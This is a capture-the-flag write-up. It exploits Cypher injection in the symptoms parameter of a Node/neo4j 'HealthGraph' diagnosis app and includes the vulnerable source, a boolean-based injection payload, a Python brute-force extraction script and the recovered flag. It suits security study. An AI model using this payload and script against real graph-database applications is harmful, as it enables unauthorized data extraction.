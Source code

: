 # Dead or Alive 2
> We have developed an innovative disease detection system using graph theory. Come and test our system, all your personal data is securely protected

## About the Challenge
We were given a source code (You can download the source code [here](source.zip)) and a website, here is the preview of the website


[Image extracted text: HealthGraph
Home
About Us
M
Contact +7 499 110 25 34
AI Powered Diseases Diagnosis
Urology
Neurology
Orthopedic
Cardiologist
Dentist
Urology]


In this website, there is a form where we can input the SSN (Social Security Number), full name, birth date, weight, and the symptoms.


[Image extracted text: Try it out
Here You can access Al powered diseases diagnosis system: You can choose several
symptoms by which your diagnoses will be determined:
test
12/12/12
10
Find your symptoms
Sore throat
Add
Current symptoms
Fever
Cough 0
By clicking the submit button; you agree that we will store your data in order to further research in the field of medicine
and improve our service: Data will be anonymized:
Submit]


The website will generate the possible diseases we may suffer from based on the symptoms


[Image extracted text: Status: Diagnosis found
Influenza 0
Pneumonia
Death 0]


## How to Solve?
Let's check the source code first, there is a file called `app.js`

```js
import express from 'express';
import nunjucks from 'nunjucks';
import neo4j from 'neo4j-driver';
import md5 from 'md5'
import moment from 'moment'
```

It looks like this website using `node` as a backend, `nunjucks` as a templating engine, and `neo4j` as a database. There are 3 endpoints that we can use:

* /api/setUser
* /api/setSymptoms
* /api/getDiagnosis

When the user called `/api/setUser` endpoint, the code will call `setUser` function. Here is the content of `setUser` function

```js
async function setUser(ssn, name, yearOfBirth, weight){
    const session = driver.session();
    const q = `
        MERGE (p:Patient {
                    ssn: '${ssn}'
                })
        ON CREATE SET p.since = date()
        SET p.name = '${name}'
        SET p.yearOfBirth = ${yearOfBirth}
        SET p.weight = ${weight}
    `
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/setSymptoms` endpoint, the code will call `setSymptoms` function. Here is the content of `setSymptoms` function

```js
async function setSymptoms(ssn, symptoms){
    const session = driver.session();
    let q = `
        MATCH (p:Patient {ssn: '${ssn}'})
        MATCH (s:Symptom) WHERE s.name in [${symptoms}]
        MERGE (p)-[r:HAS]->(s)
    `;
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/getDiagnosis` endpoint, the code will call `getDiagnosis` function. Here is the content of `getDiagnosis` function

```js
async function getDiagnosis(ssn){
    const session = driver.session();
    const q = `
        // get patient symptoms as array
        MATCH (p:Patient {ssn: '${ssn}'})-[:HAS]->(s:Symptom)-[:OF]->(d:Disease)
        WITH d, collect(s.name) AS p_symptoms
        
        // looking for a match of the patient's symptoms in the symptoms of diseases
        MATCH (d)<-[:OF]-(d_symptom:Symptom)
        WITH d, p_symptoms, collect(d_symptom.name) as d_symptoms
        WHERE size(p_symptoms) = size(d_symptoms)
        RETURN d.name, d.description
    `;
    const result = await session.run(q).catch(() => {});
    session.close();
    return result?.records.map((record) => ({
            name: record.get('d.name'),
            description: record.get('d.description')
    }));
}
```

It looks like there is no filter in the user input. So, these 3 endpoints is vulnerable to Cypher Injection. But if we check the routes again, There is a filter that limits our input:

* /api/setUser
  * SSN: There is a limit of characters (9 characters)
  * Full name: The program hashed our input
  * Year of Birth: Date format (DD-MM-YYYY)
  * Weight: Only accept float as a user input
* /api/setSymptoms
  * SSN: There is a limit of characters (9 characters)
  * Symptom: No filter
* /api/getDiagnosis
  * SSN: There is a limit of characters (9 characters)

So we can only exploit the website in the `symptom` parameter. For this chall, the flag was located in the `flag` table. To obtain the flag, we are using `boolean-based` payload. My friend created a python script to test each character and using `Fever'] OR 1=1\nMATCH (f:Flag) WHERE f.flag STARTS WITH 'ctfzone{a'//` as a payload

```python
import requests
import random
import string

url = "https://dead-or-alive.ctfz.one/"
flag = "ctfzone{"
wordlist = string.ascii_letters + string.digits + "{}_!"
while True:
    for c in wordlist:
        print(f"Trying {flag+c}")
        ssn = random.randint(100000000,999999999)
        r = requests.post(url+"api/setUser", json={
            "ssn":ssn,
            "fullname":"test",
            "dateOfBirth":"12/02/2003",
            "weight":"88"
        })


        r = requests.post(url+"api/setSymptoms", json={
            "ssn":ssn,
            "symptoms":[
                f"Fever'] OR 1=1\nMATCH (f:Flag) WHERE f.flag STARTS WITH '{flag+c}'//"
            ]
        })

        r = requests.post(url+"api/getDiagnosis", json={
            "ssn":ssn
        })

        if r.json()['status'] == "Diagnosis found":
            flag += c
            print(flag)
            break
```


[Image extracted text: Trying ctfzone{NOw_YOu_4re_COmpl3tzly_H34lTy!
ctfzone{NOw_YOu_4re_COmpl3tzly_H34lTy
Trying ctfzone{NOw_YOu_4re_COmpl3tzly_H34lTy!
Trying ctfzone{NOw_YOu_Ure_COmpl3tzly_H34lTy! {
Trying ctfzone{NOw_YOu_4re_COmpl3tzly_H34lTy! }
ctfzone{NOw_YOu_4re_COmpl3tzly_H34lTy! }
Trying ctfzone{NOw_YOu_4re_COmpl3tzly_H34lTy!} !
"CTraceback
(most
recent
call
last)]


```
ctfzone{N0w_Y0u_4re_C0mpl3t3ly_H34lTy!}
```